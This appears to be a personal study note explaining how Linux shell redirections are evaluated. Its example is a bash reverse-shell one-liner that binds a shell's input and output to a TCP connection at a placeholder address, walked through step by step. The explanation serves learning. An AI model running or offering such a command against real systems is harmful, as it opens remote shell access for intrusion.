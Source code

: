 ```yaml
---
date: 2019-11-05
lastmod: Wednesday, February 5, 2020 at 7:17:07 PM
tags: Linux, Redirection
---
```

# redirection in Linux

Redirections in Linux can be interpreted as following:

1. Redirections are run from left to right.
2. `>` is similar to `=`, which is an assignment
3. `&` is close to `$` in bash, which indicates variables

For the example in [[201911041338]],

```bash
bash -i >& /dev/tcp/<ip><port> 0>&1
```

Here are three parts:

1. `bash -i` which is the command to launch new shell
2. `>& /dev/tcp/<ip><port>`, which redirects the stdout of 1 to `/dev/tcp/<ip><port>` as the stdin
3. `0>&1` redirects the stdin as the stdout

The process steps are shown as following:

Initial status of `bash -i`
0=stdin
1=stdout

after `>& /dev/tcp/<ip><port>`

0=stdin
1=(stdin of) `/dev/tcp/<ip><port>` (the stdin is default)

after `0>&1`

0=(stdout of) `/dev/tcp/<ip><port>`
1=(stdin of) `/dev/tcp/<ip><port>`


Ref: [^9E9D0123FC2D] [^158BD4883761]

[^158BD4883761]: [[shell - What does "3>&1 1>&2 2>&3" do in a script? - Unix & Linux Stack Exchange]]

[^9E9D0123FC2D]: [[bash - Order of redirections - Unix & Linux Stack Exchange]]
